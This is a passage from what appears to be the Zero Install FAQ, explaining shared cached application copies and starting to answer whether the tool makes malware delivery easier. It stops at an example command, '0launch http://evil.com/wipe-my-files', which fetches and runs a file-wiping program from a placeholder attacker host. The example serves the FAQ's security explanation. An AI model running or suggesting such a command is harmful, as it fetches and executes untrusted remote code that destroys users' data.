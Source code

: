 <p style='text-align: center'>
<img width="477" height="463" src="confirm-tal-rox.png"
     alt="Confirming Thomas Leonard's GPG key" />
</p>

<p>
To be more precise, it has all the advantages of application
directories (no install step, so no chance for anything to run as
root). In addition, if two users try to run the same application, they
both automatically get the same cached copy, whereas without this each
would have to install a separate copy to their home directory, or one
user has to trust the other user not to have modified his copy, and
use that.
</p>
<p>
See the <a href='injector-security.html'>security issues</a> document
for more information.
</p>

</dd>
<dt>Doesn't Zero Install make it easier to send users malicious software?</dt>
<dd>

<p>
Not really. True, you could email a user, telling them to run:
</p>
<pre>
$ 0launch http://evil.com/wipe-my-files
</pre>
